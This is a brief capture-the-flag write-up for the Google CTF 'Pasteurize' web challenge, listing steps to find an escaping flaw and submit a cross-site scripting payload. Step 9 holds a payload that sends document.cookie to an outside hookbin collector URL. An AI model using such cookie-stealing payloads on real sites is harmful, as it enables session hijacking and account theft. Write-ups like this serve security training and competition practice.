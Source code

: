 ## Google CTF - Pasteurize ##
# // <-----------------> \\ #

  ^^ Done on : 27/02/21, ezyhcks ^^

		//>STEPS<//

	1. wget "https://pasteurize.web.ctfcompetition.com/source" 
	2. mv source source.js
	3. view source code to see how the program handles the parsing of "" and other stuff
	4. look a bit at the escape_string variable...
	5. open node in terminal
	6. play a bit with the JSON.stringify() command
	7. make a request.py file; give it the url, and set the contents to the XSS
	8. goto hookbin.com and get an entry point
	9. set content[]: ";new Image().src'(_hookbin_url_)?c='+document.cookie//"
	10. visit the note_id in the webpage and check with hookbin.com
	11. get the query string!

# // <-----------------> \\ # 
